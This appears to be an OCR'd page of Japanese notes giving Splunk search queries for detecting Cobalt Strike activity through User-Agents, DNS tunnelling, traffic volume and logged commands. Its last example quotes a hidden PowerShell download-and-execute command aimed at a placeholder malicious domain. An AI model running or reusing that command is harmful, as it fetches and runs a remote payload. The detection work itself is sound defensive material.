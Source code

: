 Cobalt StrikeはHTTP/HTTPSで通信することがあるため、異常な`User-Agent`や特定のURIパスを探します。

**例**: 特定の`User-Agent`を持つHTTPリクエストを検索する

```plaintext
index=web_logs | search "User-Agent=CobaltStrike"
```

**例**: 特定のURIパスが含まれるリクエストを検索する

```plaintext
index=web_logs | search uri_path="/path/to/command"
```

### 4. **DNSトンネリングの検出**

Cobalt StrikeがDNSトンネリングを使用する場合、特定のドメインや長いサブドメインを探します。

**例**: 特定のドメインを含むDNSクエリを検索する

```plaintext
index=dns_logs | search query="*.maliciousdomain.com"
```

**例**: 異常に長いDNSクエリを検索する

```plaintext
index=dns_logs | search length(query) > 50
```

### 5. **異常なアクセス数及びデータ転送量の検出**

異常なアクセス数
```bash
index = * src_ip = プロキシIP | stats count by src_ip dest_ip |sort -
 count
```
```bash
index = * dest_ip = プロキシIP | stats count by src_ip dest | sort - count
```
Cobalt Strikeのセッションは異常なデータ転送量を示すことがあります。

**例**: 大量のデータ転送が行われているセッションを検索する

```plaintext
index=network_logs | stats sum(bytes) by src_ip, dest_ip | where sum(bytes) > 1000000
```

### 6. **コマンドやアクティビティの検出**

Cobalt Strikeが実行するコマンドやアクティビティを検出するために、ログに記録されたコマンドを検索します。

**例**: 特定のコマンドが含まれるログを検索する

```plaintext
index=sysmon_logs | search "cmdline=\"powershell -nop -w hidden -c iex (New-Object Net.WebClient).DownloadString('http://maliciousdomain.com/payload')\""
```

Cobalt Strikeのイベントログ検索
